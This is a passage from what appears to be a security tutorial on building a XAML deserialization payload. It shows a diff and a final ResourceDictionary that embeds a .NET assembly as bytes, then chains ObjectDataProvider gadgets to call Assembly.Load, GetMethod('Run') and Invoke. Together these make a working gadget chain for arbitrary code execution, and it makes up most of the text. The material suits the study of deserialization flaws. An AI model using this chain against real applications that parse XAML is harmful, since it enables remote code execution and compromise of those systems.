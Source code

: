 Finally, for the last piece of code, we need to use the `x:Array` markup extension to create an array of `object` and the `x:Null` markup extension for the `null` value:

```diff
diff --git a/4.xaml b/5.xaml
index 157d2da..2e5b432 100644
--- a/4.xaml
+++ b/5.xaml
@@ -31,4 +31,12 @@
             <r:BindingFlags>24</r:BindingFlags>
         </ObjectDataProvider.MethodParameters>
     </ObjectDataProvider>
+
+    <!-- method.Invoke(null, new object[] {}); -->
+    <ObjectDataProvider x:Key="invoke" ObjectInstance="{StaticResource method}" MethodName="Invoke">
+        <ObjectDataProvider.MethodParameters>
+            <x:Null></x:Null>
+            <x:Array Type="{x:Type s:Object}"></x:Array>
+        </ObjectDataProvider.MethodParameters>
+    </ObjectDataProvider>
 </ResourceDictionary>
```

Here is how the final payload looks like:

```xml
<ResourceDictionary xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" 
                    xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
                    xmlns:r="clr-namespace:System.Reflection;assembly=mscorlib"
                    xmlns:s="clr-namespace:System;assembly=mscorlib"
>
    <!-- byte[] data = new byte[] { /*... Payload.dll bytes ...*/ }; -->
    <x:Array x:Key="data" Type="{x:Type x:Byte}">
        <x:Byte>77</x:Byte>
        <!-- ... 3582 lines ... -->
        <x:Byte>0</x:Byte>
    </x:Array>

    <!-- Assembly assembly = Assembly.Load(data); -->
    <ObjectDataProvider x:Key="assembly" ObjectType="{x:Type r:Assembly}" MethodName="Load">
        <ObjectDataProvider.MethodParameters>
          <StaticResource ResourceKey="data"></StaticResource>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>

    <!-- Type type = assembly.GetType("MyType"); -->
    <ObjectDataProvider x:Key="type" ObjectInstance="{StaticResource assembly}" MethodName="GetType">
        <ObjectDataProvider.MethodParameters>
            <s:String>Payload</s:String>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>

    <!-- MethodInfo method = type.GetMethod("Run", BindingFlags.Static | BindingFlags.Public); -->
    <ObjectDataProvider x:Key="method" ObjectInstance="{StaticResource type}" MethodName="GetMethod">
        <ObjectDataProvider.MethodParameters>
            <s:String>Run</s:String>
            <r:BindingFlags>24</r:BindingFlags>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>

    <!-- method.Invoke(null, new object[] {}); -->
```